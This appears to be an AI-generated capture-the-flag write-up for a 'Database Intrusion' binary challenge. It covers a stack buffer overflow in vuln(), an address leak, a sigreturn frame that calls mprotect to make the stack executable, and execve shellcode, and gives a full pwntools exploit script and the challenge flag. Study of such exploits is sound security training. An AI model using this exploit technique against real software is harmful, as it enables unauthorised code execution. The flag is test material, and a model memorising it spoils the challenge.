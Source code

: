 Here's a customized version of your writeup tailored for the **"Database Intrusion"** challenge, where the key vulnerability is a buffer overflow in `vuln()`, and the exploitation involves using SROP to mark the stack executable and inject shellcode — all while bypassing the `check_forbidden()` filter.

---

# Database Intrusion - Writeup

---

## Exploit Demo

This demo shows the full exploitation flow:

![Alt text](gif/DatabaseIntrusion.gif)

---

## Binary Inspection

We begin by examining the binary format and security properties.

### Step 1: Binary Format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Security Properties

```bash
$ pwn checksec main
```

Security summary:

- **Full RELRO**
- **No Stack Canary**
- **NX enabled**
- **PIE enabled**

![Alt text](img/2.png)

---

## Vulnerability Summary

The function `vuln()` contains a **buffer overflow** on a 64-byte buffer due to an unchecked `read()` call that reads **0x190 bytes**:

```c
char buf[64];
read(0, buf, 0x190);  // Vulnerable
```

Furthermore, a `check_forbidden()` function filters out strings such as `/bin/sh`, `ls`, `bash`, and more — preventing traditional `system("/bin/sh")` shellcode or command injection.

---

## Exploit Strategy

Due to the NX bit and forbidden string filter, we use **Sigreturn-Oriented Programming (SROP)** to:

1. Call `mprotect()` to mark the stack **RWX**.
2. Inject and execute a **custom shellcode** that avoids forbidden strings.

### Overview

1. **Leak PIE base** from `printf("%p:%p", buf, vuln)` in `vuln()`.
2. **Page-align the stack buffer** to use in `mprotect()`.
3. **Craft a SROP frame** that sets up a `mprotect` syscall to make stack executable.
4. **Inject shellcode** directly into the buffer.
5. **Jump to shellcode** after stack permissions are changed.

---

## Static Analysis

```c
int vuln() {
  _BYTE buf[64];
  printf(">> Secure channel established at %p:%p.\n", buf, vuln);
  read(0, buf, 0x190);
  check_forbidden(buf);
  return puts("Hint: You don't need ga\ndgets for rax!");
}
```

- `buf` and `vuln` addresses are leaked.
- `check_forbidden()` runs _after_ the overflow, so shellcode must not contain blocked substrings.
- Buffer is on the **stack**, so we need to **mprotect** it before execution.

---

## Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
exe = context.binary = ELF('./main')

def start(argv=[], *a, **kw):
    return process([exe.path] + argv, *a, **kw)

gdbscript = 'continue\n'

io = start()

# Leak buf and vuln addresses
io.recvuntil(b'>> Secure channel established at ')
leak_vals = io.recvline().split(b':')
buf_addr = int(leak_vals[0], 16)
vuln_addr = int(leak_vals[1].strip()[:-1], 16)

log.success(f"buf @ {hex(buf_addr)}")
log.success(f"vuln @ {hex(vuln_addr)}")

# Calculate PIE base
exe.address = vuln_addr - exe.sym['vuln']
log.success(f"PIE base @ {hex(exe.address)}")

# Set up ROP and gadgets
rop = ROP(exe)
syscall_gadget = rop.find_gadget(['syscall'])[0]

# Page-align stack address
page_size = 0x1000
aligned_stack = buf_addr & ~(page_size - 1)

# Create SigreturnFrame for mprotect
frame = SigreturnFrame()
frame.rax = 10                 # mprotect
frame.rdi = aligned_stack      # addr
frame.rsi = page_size          # len
frame.rdx = 7                  # PROT_READ | PROT_WRITE | PROT_EXEC
frame.rsp = buf_addr           # pivot back to shellcode
frame.rip = syscall_gadget     # syscall; ret

# Custom shellcode (no forbidden strings)
shellcode = asm('''
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f  # "//bin/sh"
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov al, 59                  # execve syscall
    syscall
''')

# Build payload
offset = 16
payload = p64(buf_addr + 8)         # new RIP (skip over dummy value)
payload += shellcode
payload += b'\x90' * (72 - len(payload))  # NOP padding
payload += p64(syscall_gadget)      # trigger sigreturn
payload += bytes(frame)             # actual frame

# Send payload
io.recvuntil(b'>> Root key required to proceed:\n')
io.sendline(payload)
io.interactive()
```

---

## Final Notes

- The SROP frame allows us to _bypass the NX bit_.
- The injected shellcode is carefully crafted to avoid any substrings checked by `check_forbidden()`.
- We pivot back into the shellcode via `rsp` in the frame after `mprotect()` succeeds.

---

## Result

After successful execution, a shell is spawned **without using any forbidden string**, granting control of the target system.

---

## Flag

```
RedPointer{X!r7v9-Kaleido.phs}
```

---

Let me know if you'd like a version with visuals (`img/`) or the Markdown exported as a `.md` file.
